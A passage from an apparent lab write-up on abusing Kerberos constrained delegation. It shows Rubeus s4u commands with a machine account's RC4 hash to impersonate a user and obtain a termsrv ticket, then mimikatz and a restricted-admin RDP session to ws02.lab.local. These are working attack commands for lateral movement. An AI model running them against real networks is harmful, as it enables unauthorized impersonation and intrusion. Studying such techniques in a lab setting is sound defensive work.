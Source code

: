 Mimikatz can pass the ticket, but our `cifs` and `http` tickets aren't valid for RDP, we need a `termsrv` ticket. So similar to before, we request one with Rubeus.

    .\Rubeus.exe s4u /user:LUJCDPUQ$ /impersonateuser:lkys /msdsspn:"cifs/ws02.lab.local" /ptt /rc4:3116C16787230147050F6835AFBF5EDF /altservice:termsrv

We open mimikatz and list the tickets. As we can see, it's been imported into the cache by the above commands so we don't have to import it "again". See the section below this one if you want to do exactly that.

    .\mimikatz.exe
    kerberos::list

![](../assets/img/relaydelegation/2019-04-14-17-05-04.png)

Now start an RDP session with `restrictedadmin` which should in theory use the `termsrv` ticket that is cached

    process::start "mstsc /restrictedadmin /v:ws02.lab.local"

![](../assets/img/relaydelegation/2019-04-14-17-16-42.png)
